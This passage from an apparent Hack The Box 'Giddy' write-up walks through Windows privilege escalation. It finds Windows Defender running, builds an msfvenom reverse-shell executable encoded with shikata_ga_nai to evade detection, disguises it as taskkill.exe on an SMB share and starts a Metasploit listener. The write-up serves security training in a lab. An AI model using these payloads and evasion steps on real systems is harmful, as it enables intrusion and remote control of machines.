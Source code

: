 Next, let us transfer the file to the server using impacket-smbserver and try to execute the taskkill.exe executable. However, we realize that we will not be able to execute the taskkill.exe executable as it seems that the executable is blocked by Windows Defender

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> copy //10.10.16.6/share/taskkill.exe
*Evil-WinRM* PS C:\ProgramData\unifi-video> ./taskkill.exe
Program 'taskkill.exe' failed to run: Operation did not complete successfully because the file contain
```

Looking at the background processes running in the machine, we can see that there is a ```MpCmdRun``` and ```MsMpEng``` running in the background. Both processes are processes specific to Windows Defender which tells us that Windows Defender is running in the background.

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    ...     ...      ...        ...               ...     ........
    166      10     2352       8556               996   0 MpCmdRun
    190      13     2828       9808              3556   0 msdtc
    599      72   155608     110640              2128   0 MsMpEng
    ...     ...      ...        ...               ...     ........
```

We would need to use some form of encoding to bypass the Windows Defender malware definitions. To do so, we will use the Shikata Ga Nai encoder in msfvenom to generate a reverse shell

```
┌──(HTB2)─(kali㉿kali)-[~/Desktop/giddy]
└─$ msfvenom -p windows/shell/reverse_tcp -b "x00" -e x86/shikata_ga_nai LHOST=10.10.16.6 LPORT=4000 -f exe -o taskkill.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: taskkill.exe
```

Afterwards, we will start an SMB server on our local machine and transfer the taskkill.exe executable that we have generated on our local machine to the vulnerable machine. Next, we will have to start a reverse shell listener using msf

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.6
LHOST => 10.10.16.6
msf6 exploit(multi/handler) > set LPORT 4000
LPORT => 4000
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.16.6:4000
```
